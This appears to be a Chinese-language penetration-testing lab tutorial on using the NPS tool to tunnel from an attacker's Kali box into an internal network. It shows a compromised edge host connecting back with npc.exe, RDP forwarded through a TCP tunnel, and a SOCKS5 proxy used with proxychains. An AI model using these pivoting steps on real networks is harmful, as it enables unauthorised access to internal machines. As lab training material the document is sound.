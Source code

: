 
# 环境准备
攻击机：<br />kali：192.168.1.28<br />![image-20210913152247891.png](./assets/1655878852972-ad33532a-e408-4034-9ae6-97efa1e9b17c.png)

内网边缘机器：<br />Win7：192.168.1.8   10.10.10.2<br />![image-20210913144106204.png](./assets/1655878857983-7deeff99-b439-4189-b2cc-587debf59f88.png)

内网机器：<br />win XP：10.10.10.3<br />![image-20210913144131732.png](./assets/1655878862665-54c60a4a-eaee-4695-b391-93b2629b9610.png)


# NPS
下载地址：[https://github.com/ehang-io/nps](https://github.com/ehang-io/nps)

nps是一款轻量级、高性能、功能强大的**内网穿透**代理服务器。目前支持**tcp、udp流量转发**，可支持任何**tcp、udp**上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析等等……），此外还**支持内网http代理、内网socks5代理**、**p2p等**，并带有功能强大的web管理端。

1、安装服务端
```
./nps install
```
![image-20210914152412012.png](./assets/1655878873624-74f14fb2-9432-4d79-b4b4-a5356affabc3.png)

2、启动服务端
```
nps start
```
![image-20210914153204559.png](./assets/1655878879084-7717ee71-c6c1-4e60-8f57-f7121d2aa98f.png)

3、在浏览器通过8080端口访问<br />![image-20210914153250570.png](./assets/1655878882599-1c9324ea-8c60-47b6-92fc-f9b684a869ee.png)

输入默认用户名、密码admin、123登录，登录后可以看到默认客户端连接端口为8024，登录后的Web界面如图所示。<br />![image-20210914153337448.png](./assets/1655878887564-ac05c8d0-ee8d-4e5b-8d0d-0efe0c1b0bc7.png)

4、添加客户端，如图所示，配置唯一验证密钥，验证密钥在从客户端连接到服务端时使用，此处配置为“123456”，然后开启压缩和加密传输。<br />![image-20210914153813970.png](./assets/1655878910216-4b3f973f-0abf-4dc5-925a-07b94dc5da04.png)

5、最后在边界主机连接服务端
```
npc.exe  -server=192.168.1.28:8024 -vkey=123456
```
![image-20210914154536786.png](./assets/1655878951686-25415648-c512-4713-93b5-f70e41975cad.png)

可以在攻击机看到上线成功<br />![image-20210914154608285.png](./assets/1655878955574-e290c623-e523-455f-92f4-c4439ec28364.png)


## TCP隧道
客户端上线后便可以通过Web界面单击上线的客户端、查看选项、配置隧道，例如，若想访问内网主机的3389端口，则可通过TCP隧道将内网主机的3389端口映射到攻击机的1111端口，单击“新增”，配置目标“10.10.10.3:3389”，配置服务端口为“1111”，TCP隧道如图所示。<br />![image-20210914154759918.png](./assets/1655878960895-2da861b2-0c24-4a31-b7eb-adcf5dc054b9.png)

TCP隧道建立成功后，即可通过连接攻击机的1111端口来连接内网主机的远程桌面，在攻击机运行命令“rdesktop 192.168.1.7:1111”连接本地的1111端口，隧道的使用如图所示。
```
rdesktop 192.168.1.28:1111
```
![image-20210914155058302.png](./assets/1655878969653-3b0a709f-7d4d-476e-afb6-f246aac285a9.png)


## socks5代理
若想搭建HTTP代理或SOCKS代理，只需选择对应模式，填写服务端端口即可，以SOCKS为例，选择模式为“SOCKS代理”，如图所示，服务端端口为“1234”。<br />![image-20210914155330269.png](./assets/1655878975471-dd4cd8ba-19b4-4be0-94fb-29210671c494.png)

配置好SOCKS代理后，便可使用攻击机192.168.1.28的1234端口访问内网，配置代理服务器<br />![image-20210914155433657.png](./assets/1655878981650-0bef0e2c-1835-463d-80f1-6e68686c9676.png)
![image-20210914155442855.png](./assets/1655878985585-0232b088-425f-43cd-82c7-f8c1bc11c8a9.png)

配置proxychains代理链的配置文件vim /etc/proxychains4.conf，将代理设置成本机的1234端口：socks5 127.0.0.1 1234<br />![image-20210914155550198.png](./assets/1655878995129-779e3912-4bfb-4882-82a1-fdeac07939eb.png)
![image-20210914155631642.png](./assets/1655878996818-c6cae718-9f59-4415-9adb-933bd8a17993.png)

